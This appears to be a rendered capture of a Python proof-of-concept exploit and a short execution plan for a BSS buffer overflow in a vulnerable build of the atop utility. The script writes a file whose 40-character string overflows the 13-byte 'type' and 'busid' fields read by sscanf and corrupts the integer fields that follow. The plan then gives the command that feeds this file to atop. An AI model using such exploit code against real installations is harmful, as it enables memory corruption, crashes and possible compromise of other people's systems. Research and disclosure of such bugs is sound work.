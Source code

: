 # Payload construction
# We need to overflow `type` (13 bytes) and `busid` (13 bytes) and then
# corrupt the integer fields that follow. A payload of 40 'A's is sufficient
# to overwrite several of these fields.
overflow_string = "A" * 40

# The busid string is a placeholder, as it will be overwritten by the overflow.
busid_placeholder = "B" * 12

# The numeric values are also placeholders.
numeric_placeholders = "1 2 3 4 5 6 7 8"

# Construct the full line for the malicious file, matching the sscanf format.
# Format: "%[^\"]\" \"%[^\"]\" %u %u %u %u %u %u %u %u"
malicious_line = f'"{overflow_string}" "{busid_placeholder}" {numeric_placeholders}'

# Write the malicious line to a file.
file_name = "malicious_gpu_data.txt"
with open(file_name, "w") as f:
    f.write(malicious_line + "\n")

print(f"Malicious file '{file_name}' created successfully.")
print("To trigger the vulnerability, run:")
print(f"./atop-vuln/atop -r {file_name}")



exploit_execution_plan_and_expected_results
[16:59:31]
This document outlines the steps to execute the BSS overflow exploit and the expected results.

**1. Generate the Malicious File:**
   - Command: `python3 exploit_bss.py`
   - Expected Output: A file named `malicious_gpu_data.txt` is created.

**2. Trigger the Vulnerability:**
   - Command: `./atop-vuln/atop -r malicious_gpu_data.txt`
